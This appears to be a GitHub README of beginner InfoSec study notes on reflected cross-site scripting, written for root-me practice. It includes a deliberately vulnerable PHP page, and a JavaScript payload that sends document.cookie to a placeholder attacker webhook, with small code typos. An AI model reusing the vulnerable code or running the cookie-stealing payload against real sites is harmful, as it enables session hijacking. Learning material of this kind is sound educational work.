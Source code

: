 # InfoSec related notes 

I have started to write down notes on security related resources I've been scanning.
This resource might be helpful for people just getting started with Information Security and for future blog posts by me.  

## License

[![CC BY-NC-SA 4.0](https://i.creativecommons.org/l/by-nc-sa/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc-sa/4.0/)  

This work is licensed under a [Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-nc-sa/4.0/).  

## The Notes Themselves
> Influenced by LiveOverFlow's youtube channel, and some additional resources 
> Videos [here](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)
> root-me platform [here](https://root-me.org)  

[comment]: <> (description will be added)  

### Web - XSS
Written on Sep 6 2019
> Influenced by a plethora of tasks on  [rootme](https://root-me.org/)
> and a LOT of googling  

Note that in order to play with XSS, you need to disable browser protection,
The following php codes must include:  
`
header("X-XSS-Protection: 0");
`  
You can read about this at [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
The HTTP X-XSS-Protection response header is a feature of Internet Explorer, Chrome and Safari that stops pages from loading when they detect reflected cross-site scripting (XSS) attacks. Although these protections are largely unnecessary in modern browsers when sites implement a strong Content-Security-Policy that disables the use of inline JavaScript ('unsafe-inline'), they can still provide protections for users of older web browsers that don't yet support CSP.
Albeit this will be futher explained later at this note.  

Also, you can find payloads to play with at [HTML5 Security Cheatsheet](http://html5sec.org/)   

#### 1. XSS - reflected  
   It is recommended that you try to read more about this in the docs section of root-me and try to solve a challenge for practice.  
   Initial code:  
   ```php
   <?php 
   // header included here
   // you will need a php server to run the example 
   // you can use the default php server by running
   // php -s localhost:80
   // read more about php built-in we server here
   // https://www.php.net/manual/en/features.commandline.webserver.php
   ?>
   
   <html>
    <body>
        <h1> <?php echo "Hello".$GET['try'] ?></h1>
        <!--
        This will output the concat result of Hello and what you supply as argument to the ?try parameter
        localhost:80/yourcode.php?try={payload later goes here}
        -->
    </body>
   </html>
   ```  
   supplying 
   ```javascript
   <script>console.log(1)</script>
   ``` 
   as input will be reflected in the webpage, thus the name **reflected Cross Site Scripting**  
   Of course writing to the console is boring, however this proves that we have code execution the context of the browser, an attacker may then leverage the full capabilities of JS with the ability to steal JS-accessible cookies which is usually the case for a session hijacking attack.  
   Read more about cookies and scoping [here](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie)  
   Let's make our first payload. However, we will need some kind of session cookie. This can be done by  
   ```php
   <?php
   // Starting session
   // this will create cookies
   // you can them by viting the developer tools  
   session_start();
   ?>
   ```
   The session_start() function first checks to see if a session already exists by looking for the presence of a session ID. If it finds one, i.e. if the session is already started, it sets up the session variables and if doesn't, it starts a new session by creating a new session ID.  
   [official manual](https://www.php.net/manual/fr/function.session-start.php)  
   To our first test, let's try to steal the cookies:
   payload:
   ```javascript
   let element = document.createElement("img");
   element.setAttribute("src", "webhookurl/?"+document.cookie);
   document.body.appendChild(element);
   ```  
   The example above, gets the document cookie and appends it to the url of an attacker's controlled webhook.  
   _Note: Don't forget to urlencode_  
   for more advanced attack vectors try HTTP parameter pollution.  
   Read about that [here](https://www.owasp.org/index.php/4.8.1_Test_de_Reflected_Cross-Site_Scripting_(OTG-INPVAL-001))  
   Its time for you to go to rootme and play.  
   Additional for CTF creation: 
   **Check PhantomJS the scriptable headless browser, or selenium on python if you want to automate the behavior of a user**  
